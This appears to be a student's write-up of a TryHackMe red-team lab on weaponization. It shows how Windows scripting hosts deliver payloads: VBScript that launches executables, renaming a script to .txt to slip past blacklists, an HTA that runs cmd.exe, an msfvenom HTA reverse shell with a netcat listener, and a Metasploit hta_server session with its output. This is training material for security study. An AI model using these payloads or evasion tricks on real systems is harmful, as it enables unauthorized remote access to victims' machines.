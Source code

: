 # Red Team Weaponization
> https://tryhackme.com/room/weaponization

![weapon](media/26-red-team-weapon.png)

Weaponization is the second stage of the Cyber Kill Chain model. In this stage, the attacker generates and develops their own malicious code using deliverable payloads such as word documents, PDFs, etc

The weaponization stage aims to use the malicious weapon to exploit the target machine and gain initial access.

Most organizations have Windows OS running, which is going to be a likely target. An organization's environment policy often blocks downloading and executing .exe files to avoid security violations. Therefore, red teamers rely upon building custom payloads sent via various channels such as phishing campaigns, social engineering, browser or software exploitation, USB, or web methods.

Most organizations block or monitor the execution of **.exe** files within their controlled environment. For that reason, red teamers rely on executing payloads using other techniques, such as built-in windows scripting technologies. Therefore, this task focuses on various popular and effective scripting techniques, including:

- The Windows Script Host (WSH)
- An HTML Application (HTA)
- Visual Basic Applications (VBA)
- PowerShell (PSH)

**CyberKill Chain**
https://www.lockheedmartin.com/en-us/capabilities/cyber/cyber-kill-chain.html

**Red Team Toolkit**:
https://github.com/infosecn1nja/Red-Teaming-Toolkit#Payload%20Development


Now let's try hacking that windows
```bash
# first access the Windows Machine
xfreerdp /v:10.10.17.249 /u:thm /p:TryHackM3 +clipboard
```
## Windows Scripting Host ( WSH )

Windows scripting host is a built-in Windows administration tool that runs batch files to automate and manage tasks within the operating system.

It is a Windows native engine, cscript.exe (for command-line scripts) and wscript.exe (for UI scripts), which are responsible for executing various Microsoft Visual Basic Scripts (VBScript), including vbs and vbe. For more information about VBScript, please visit here. It is important to note that the VBScript engine on a Windows operating system runs and executes applications with the same level of access and permission as a regular user; therefore, it is useful for the red teamers.

Now let's write a simple VBScript code to create a windows message box that shows the Welcome to THM message. Make sure to save the following code into a file, for example, hello.vbs.



hello.vbs
```vb
Dim message 
message = "Welcome to THM"
MsgBox message
```

Now let's use the VBScript to run executable files. The following vbs code is to invoke the Windows calculator, proof that we can execute .exe files using the Windows native engine (WSH).

calculator.vbs
```vb
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
' Ways to execute
' wscript calculator.vbs
' cscript calculator.vbs
```

Another trick. If the VBS files are blacklisted, then we can rename the file to .txt file and run it using wscript as follows,

```cmd
c:\Windows\System32>wscript /e:VBScript c:\Users\thm\Desktop\payload.txt
```

## HTA - HTML Application

An HTML Application (HTA) allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered which are dynamic HTML pages containing JScript and VBScript.

10.10.244.133


```html
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>

```

**HTA Reverse Connection**

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
    LHOST=10.10.244.133 LPORT=443 -f hta-psh -o thm.hta

# serve it using the python server
# then catch it using NC in another terminal
sudo nc -lnvp 443
```

Once the victim visits the malicious URL and hits run, we get the connection back.
```bash
┌──(root㉿kali)-[~/repo]
└─# sudo nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.244.133] from (UNKNOWN) [10.10.168.71] 50342
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\thm\Downloads>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet 4:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::c880:edf7:1346:6133%2
   IPv4 Address. . . . . . . . . . . : 10.10.168.71
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.10.0.1

Tunnel adapter isatap.eu-west-1.compute.internal:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : eu-west-1.compute.internal

Tunnel adapter Teredo Tunneling Pseudo-Interface:

   Connection-specific DNS Suffix  . :
   IPv6 Address. . . . . . . . . . . : 2001:0:2851:782c:3cf3:31d4:f5f5:57b8
   Link-local IPv6 Address . . . . . : fe80::3cf3:31d4:f5f5:57b8%5
   Default Gateway . . . . . . . . . : ::

C:\Users\thm\Downloads>
```


**Malicious HTA via Metasploit**
```bash
┌──(root㉿kali)-[~/repo/HTA]
└─# msfconsole -q
msf6 > use exploit/windows/misc/hta_server
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) > set LHOST 10.10.244.133
LHOST => 10.10.244.133
msf6 exploit(windows/misc/hta_server) > set LPORT 443
LPORT => 443
msf6 exploit(windows/misc/hta_server) > set SRVHOST 10.10.244.133
SRVHOST => 10.10.244.133
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.244.133:443
msf6 exploit(windows/misc/hta_server) > [*] Using URL: http://10.10.244.133:8080/a0MyJ1AA0VM.hta
[*] Server started.
[*] Sending stage (175686 bytes) to 66.160.133.238
[*] 10.10.168.71     hta_server - Delivering Payload
[*] Sending stage (175686 bytes) to 10.10.168.71


## NOTES:
# On the victim machine, once we visit the malicious HTA file that was provided as a URL by Metasploit, we should receive a reverse connection.

[*] Meterpreter session 1 opened (10.10.244.133:443 -> 10.10.168.71:50594) at 2023-11-23 16:29:30 +0000

msf6 exploit(windows/misc/hta_server) > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x86/windows  DESKTOP-1AU6NT4\thm @ DESKTOP-1AU6NT4  10.10.244.133:443 -> 10.10.168.71:5059
                                                                            4 (10.10.168.71)

msf6 exploit(windows/misc/hta_server) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-1AU6NT4
OS              : Windows 10 (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >

```

